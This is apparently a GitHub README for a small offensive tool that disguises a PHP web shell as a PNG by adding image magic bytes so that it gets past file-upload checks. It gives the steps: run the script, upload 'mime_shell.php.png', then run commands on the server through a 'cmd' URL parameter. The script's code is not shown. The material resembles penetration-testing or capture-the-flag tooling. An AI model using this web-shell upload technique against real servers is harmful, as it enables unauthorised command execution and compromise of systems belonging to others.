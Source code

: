 # Bypass File Upload Restriction with Magic Bytes

Bypassing File Upload Restriction using Magic Bytes

Usage:

bash magic_bytes.sh

Upload mime_shell.php.png

http://x.x.x.x/uploads/10_10_14_33.php.png?cmd=id

![image](https://user-images.githubusercontent.com/79543461/177217365-b7e93b3a-d0e6-42b4-81a9-f3d916ad1673.png)
